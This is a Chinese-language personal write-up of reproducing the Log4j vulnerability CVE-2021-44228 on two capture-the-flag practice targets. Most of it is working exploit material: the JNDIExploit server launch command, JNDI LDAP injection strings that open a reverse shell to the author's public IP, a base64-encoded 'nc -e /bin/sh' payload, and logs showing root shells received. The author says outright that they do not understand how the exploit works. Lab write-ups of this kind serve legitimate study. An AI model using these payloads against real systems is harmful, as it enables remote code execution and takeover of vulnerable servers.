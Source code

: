 # CVE-2021-44228（logj）

总结：这个漏洞可以导致服务器执行你的输入，这样，执行你的恶意代码，或者反弹shell就都可以了。

---

这个漏洞其实我不太理解。也就是漏洞原理，暂时学着网上的复现出来。

但是现在有那么一点的眉目，就是对某个带有漏洞的服务器，输入一串特殊的字符串，然后这串字符串在服务器被执行，执行结果就是，服务器按照我们输入的内容，如果我们输入恶意代码，就能控制服务器。

整个过程也较为麻烦，实验了很多次，后面是用xshell连接我的公网服务器，然后用宝塔面板进行上传文件，接着再执行相关的步骤。

---



第一个网站：

烽火台：https://hack.zkaq.cn/battle/target?id=5a768e0ca6938ffd

做题时目标服务器ip：59.63.166.75

第一步：你要先有这些文件。

但是主要就是一个文件，就是JNDIExploit-1.2-SNAPSHOT.jar，其他的没有用到。跟exploit.class没有关系，尽管输出有Exploit相关输出。

![image-20220819095336055](C:\Users\高传晔\Desktop\cve复现.assets\image-20220819095336055.png)

第二步：执行

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 124.222.52.101
```

![image-20220819095500396](C:\Users\高传晔\Desktop\cve复现.assets\image-20220819095500396.png)

第三步：监听12345端口：

![image-20220819095625101](C:/Users/%E9%AB%98%E4%BC%A0%E6%99%94/Desktop/cve%E5%A4%8D%E7%8E%B0.assets/image-20220819095625101.png)

第四步：注入payload

这里需要的payload是：

```bash
${jndi:ldap://124.222.52.101:1389/Basic/ReverseShell/124.222.52.101/12345}
```

注释：124.222.52.101是我的公网ip，1389是LDAP监听的端口，后面的/Basic/ReverseShell/我不理解，然后是我的公网ip，我想要反弹给我自己电脑shell的端口。

结果：

![image-20220819100851001](C:\Users\高传晔\Desktop\cve复现.assets\image-20220819100851001.png)

注入后：

![image-20220819101454421](C:\Users\高传晔\Desktop\cve复现.assets\image-20220819101454421.png)

拿到了shell。

显示的信息：

```bash
ubuntu@VM-12-10-ubuntu:/llll$ java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 124.222.52.101
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8080...
[+] Received LDAP Query: Basic/ReverseShell/124.222.52.101/12345
[+] Paylaod: reverseshell
[+] IP: 124.222.52.101
[+] Port: 12345
[+] Sending LDAP ResourceRef result for Basic/ReverseShell/124.222.52.101/12345 with basic remote reference payload
[+] Send LDAP reference result for Basic/ReverseShell/124.222.52.101/12345 redirecting to http://124.222.52.101:8080/ExploitaHGZETaQqI.class
[+] New HTTP Request From /59.63.166.75:35534  /ExploitaHGZETaQqI.class
[+] Receive ClassRequest: ExploitaHGZETaQqI.class
[+] Response Code: 200
```

```bash
ubuntu@VM-12-10-ubuntu:/llll$ nc -lvnp 12345
Listening on 0.0.0.0 12345
Connection received on 59.63.166.75 52042
root@2edcae2c7a9a:/# 
```





第二个网站：

BugkuCtf：https://ctf.bugku.com/challenges/detail/id/340.html

做题时目标服务器ip：

```
http://114.67.175.224:12057/
```

第一步，第二步，第三步都一样。

第四步的payload不一样：

```
${jndi:ldap://124.222.52.101:1389/Basic/Command/Base64/bmMgMTI0LjIyMi41Mi4xMDEgMTIzNDUgLWUgL2Jpbi9zaA==}
```

注释：/Basic/Command/Base64/我不理解，bmMgMTI0LjIyMi41Mi4xMDEgMTIzNDUgLWUgL2Jpbi9zaA==是base64加密后的命令，解密过来就是：

```bash
nc 124.222.52.101 12345 -e /bin/sh
```

结果：

注入后：

![image-20220819101621278](C:\Users\高传晔\Desktop\cve复现.assets\image-20220819101621278.png)

显示的信息：

```
ubuntu@VM-12-10-ubuntu:/llll$ java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 124.222.52.101
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8080...
[+] Received LDAP Query: Basic/Command/Base64/bmMgMTI0LjIyMi41Mi4xMDEgMTIzNDUgLWUgL2Jpbi9zaA==
[+] Paylaod: command
[+] Command: nc 124.222.52.101 12345 -e /bin/sh
[+] Sending LDAP ResourceRef result for Basic/Command/Base64/bmMgMTI0LjIyMi41Mi4xMDEgMTIzNDUgLWUgL2Jpbi9zaA== with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/bmMgMTI0LjIyMi41Mi4xMDEgMTIzNDUgLWUgL2Jpbi9zaA== redirecting to http://124.222.52.101:8080/Exploitjx4hAUQven.class
[+] New HTTP Request From /114.67.175.224:44082  /Exploitjx4hAUQven.class
[+] Receive ClassRequest: Exploitjx4hAUQven.class
[+] Response Code: 200
[+] Received LDAP Query: Basic/Command/Base64/bmMgMTI0LjIyMi41Mi4xMDEgMTIzNDUgLWUgL2Jpbi9zaA==
[+] Paylaod: command
[+] Command: nc 124.222.52.101 12345 -e /bin/sh
[+] Sending LDAP ResourceRef result for Basic/Command/Base64/bmMgMTI0LjIyMi41Mi4xMDEgMTIzNDUgLWUgL2Jpbi9zaA== with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/bmMgMTI0LjIyMi41Mi4xMDEgMTIzNDUgLWUgL2Jpbi9zaA== redirecting to http://124.222.52.101:8080/ExploitSmWaWE9phv.class
[+] New HTTP Request From /114.67.175.224:44082  /ExploitSmWaWE9phv.class
[+] Receive ClassRequest: ExploitSmWaWE9phv.class
[+] Response Code: 200

```



```bash
ubuntu@VM-12-10-ubuntu:/llll$ nc -lvnp 12345
Listening on 0.0.0.0 12345
Connection received on 114.67.175.224 43322

```


